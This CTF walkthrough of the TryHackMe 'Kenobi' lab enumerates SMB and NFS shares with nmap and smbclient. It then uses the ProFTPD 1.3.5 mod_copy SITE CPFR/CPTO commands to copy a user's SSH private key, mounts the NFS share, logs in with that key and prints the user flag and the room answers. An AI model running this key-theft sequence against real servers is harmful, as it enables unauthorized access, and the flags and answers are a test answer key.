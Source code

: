 ```yaml
---
layout: post
title: Kenobi
categories: [CyberSecurity]
tags: [CTF, thm, easy, nmap]
---
```

![Kenobi](./assets/kenobi.png){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/kenobi](https://tryhackme.com/room/kenobi)

**Difficulty level:** Easy

This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.
## Task 1: Deploy the vulnerable machine
### Questions:
Q1. Make sure you're connected to our network and deploy the machine  
Q2. Scan the machine with nmap, how many ports are open?
### MyWalk
As usual start with a nmap scan:
```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.226.246
```
{: .nolineno }

Count number of open ports. Q2 done

## Task 2: Enumerating Samba for shares

Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
```
{: .nolineno }

SMB has two ports, 445 and 139.

SMB has two ports, 445 and 139.  
![image info](./assets/bkgVNy3.png)  
Using the nmap command above, how many shares have been found?  

### Questions:
Q1. Using the nmap command above, how many shares have been found?

> "3"

On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.

```bash
smbclient //10.10.221.220/anonymous
```
{: .nolineno }

Using your machine, connect to the machines network share.

Q2. Once you're connected, list the files on the share. What is the file can you see?

> "log.txt"

You can recursively download the SMB share too. Submit the username and password as nothing.

```bash
smbget -R smb://10.10.221.220/anonymous
```
{: .nolineno }

Open the file on the share. There is a few interesting things found.

    Information generated for Kenobi when generating an SSH key for the user
    Information about the ProFTPD server.

Q3. What port is FTP running on?

> "21"

Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.221.220
```
{: .nolineno }

Q4. What mount can we see?

> "/var"

## Task 3:  Gain initial access with ProFtpd 

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.

### Questions:

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

```bash
nc 10.10.221.220 21
```
{: .nolineno }

Q1. What is the version?

> "1.3.5"

We can use searchsploit to find exploits for a particular software version.
Searchsploit is basically just a command line search tool for exploit-db.com.

Q2. How many exploits are there for the ProFTPd running?

> "4"

You should have found an exploit from ProFtpd's mod_copy module. 

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Q3. We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

> "No answer needed"

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

```bash
└─$ nc 10.10.221.220 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.221.220]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```
{: .nolineno }

Q4. We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

> "No answer needed"

Lets mount the /var/tmp directory to our machine

```bash
└─$ sudo mkdir /mnt/kenobiNFS
└─$ sudo mount 10.10.221.220:/var /mnt/kenobiNFS
└─$ ls -la /mnt/kenobiNFS
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Jan 22 14:28 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root avahi 4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Jan 22 14:25 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www
```
{: .nolineno }

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

```bash
└─$ cp /mnt/kenobiNFS/tmp/id_rsa .
└─$ sudo chmod 600 id_rsa                       
└─$ ssh -i id_rsa kenobi@10.10.221.220
The authenticity of host '10.10.221.220 (10.10.221.220)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.221.220' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```
{: .nolineno }

Q5. What is Kenobi's user flag (/home/kenobi/user.txt)?

>  "d0b0f3f53b6caa532a83915e19224899"
